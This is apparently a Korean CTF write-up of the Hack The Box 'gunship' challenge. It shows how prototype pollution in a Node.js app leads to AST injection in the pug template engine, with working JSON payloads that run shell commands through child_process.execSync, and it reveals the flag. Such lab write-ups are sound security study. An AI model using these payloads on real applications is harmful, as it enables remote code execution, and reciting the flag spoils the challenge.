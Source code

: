 # gunship
![JavaScript](https://img.shields.io/badge/javascript-%23323330.svg?style=for-the-badge&logo=javascript&logoColor=%23F7DF1E)
![js](https://img.shields.io/badge/Node.js-43853D?style=for-the-badge&logo=node.js&logoColor=white)

![image](https://github.com/user-attachments/assets/a37cca9a-47ce-4c0a-bd1f-e123b1299067)
- 해당 페이지의 입력폼이다.
- 해당 입력폼 작성시 아래와 같이 리퀘스트가 전송된다.
```
POST /api/submit HTTP/1.1
 Host: 159.65.20.166:31605
 Content-Length: 24
 User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.216 Safari/53
 Content-Type: application/json
 Accept: */*
 Origin: http://159.65.20.166:31605
 Referer: http://159.65.20.166:31605/
 Accept-Encoding: gzip, deflate, br
 Accept-Language: ko-KR,ko;q=0.9,en-US;q=0.8,en;q=0.7
 Connection: close
 {"artist.name":"asfasf"}
```

## Source Code Analysis
```
# Generate random flag filename
FLAG=$(cat /dev/urandom | tr -dc 'a-zA-Z0-9' | fold -w 5 | head -n 1)
mv /app/flag /app/flag$FLAG
```
- ```entrypoint.sh```의 내용은 위와 같다. 랜덤으로 문자열이 붙기 때문에 flag 파일의 이름을 알아내야 한다.

```
 router.post('/api/submit', (req, res) => {
   console.log(req.body)
   const { artist } = unflatten(req.body);
   console.log(artist)
   if (artist.name.includes('Haigh') || artist.name.includes('Westaway') || artist.name.includes('Gingell')) {
     return res.json({
       'response': pug.compile('span Hello #{user}, thank you for letting us know!')({ user: 'guest' })
     });
   } else {
     return res.json({
       'response': 'Please provide us with the full name of an existing member.'
     });
   }
 });
```
- ```/api/submit```엔드포인트 소스코드이다. ```artist.name```에 특정 문자열이 포함되어 있어야 ```pug.compile()```이 실행된다는 것을 알 수 있다.
- ```pug```모듈 관련 취약점을 탐색하다 보니 ```Prototype Pollution```을 활용한 AST injection 공격이 가능하다는것을 확인하였고, 해당 취약점 관련 PoC도 함께 찾을수 있었다.
```
"__proto__.block": {
   "type": "Text", 
  "line": "process.mainModule.require('child_process').execSync('$(ls | grep flag)')"
 }
```
- 페이로드의 내용은 위와 같다. ```__proto__.block```과 ```Text``` 타입을 사용

```
switch (ast.type) {
 case 'NamedBlock':
 case 'Block':
   ast.nodes = walkAndMergeNodes(ast.nodes);
   break;
 case 'Case':
 case 'Filter':
 case 'Mixin':
 case 'Tag':
 case 'InterpolatedTag':
 case 'When':
 case 'Code':
 case 'While':
   if (ast.block) {
        ast.block = walkAST(ast.block, before, after, options);
   }
 break;
```
- 해당 코드는 파싱을 담당하는 pug-walk/index.js의 소스 일부분이다.
- ```ast.block```의 값에 따라 ```walkAST()```가 호출되어 재귀적으로 구문 분석이 이루어진다는 것을 알 수 있다.
- ```ast``` 객체는 AST의 현재 노드(Abstract Syntax Tree)를 나타낸다.
- 또한 ```ast.block```은 초기화되지 않은 상태, 따라서 ```Prototype Pollution``` 공격을 통해 block을 오염시키면 공격코드가 구문 분석되는 것이다.

## PoC
```
{
  "artist.name":"Haigh","__proto__.block": {
  "type": "Text",
  "line": "process.mainModule.require('child_process').execSync('$(ls | grep flag)')"
  }
}
```
- 명령이 에러 없이 실행되면 결과를 볼 수 없기 때문에 ```$()```를 추가

```
<html lang="en">
<head>
<meta charset="utf-8">
<title>Error</title>
</head>
<body>
<pre>Error: Command failed: $(ls | grep flag)<br>/bin/sh: flagzxQu2: not found<br> on line 1<br> &nbsp; &nbsp;at checkExecSy
</body>
</html>
```
- 에러메시지로 플래그 파일의 이름이 ```flagzxQu2```라는 것을 알 수 있다.

```
{
  "artist.name":"Haigh","__proto__.block":{
  "type": "Text",
  "line": "process.mainModule.require('child_process').execSync('$(cat flagzxQu2)')"
  }
}
```
- 마찬가지로 에러를 발생시켜 출력값 확인

```
 HTB{wh3n_lif3_g1v3s_y0u_p6_st4rT_p0llut1ng_w1th_styl3!!}
```
